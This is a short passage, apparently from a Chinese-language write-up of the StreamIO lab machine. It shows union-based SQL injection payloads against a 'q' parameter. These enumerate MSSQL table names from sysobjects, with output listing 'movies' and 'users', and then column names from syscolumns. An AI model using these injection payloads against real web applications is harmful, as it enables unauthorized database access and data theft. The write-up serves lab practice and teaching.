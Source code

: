 streamio_backup查询表名时返回空，可能是权限问题

#### **查询表名**

```
q=10' union select 1,name,id,4,5,6 from STREAMIO.dbo.sysobjects where xtype='u'--+
```

![image-20250516150609055](./StreamIO-Windows/image-20250516150609055.png)

```
movies 885578193
users 901578250
```

#### **查询列名**

```
q=10' union select 1,name,id,4,5,6 from STREAMIO.dbo.syscolumns where id in (885578193,901578250)--+
```
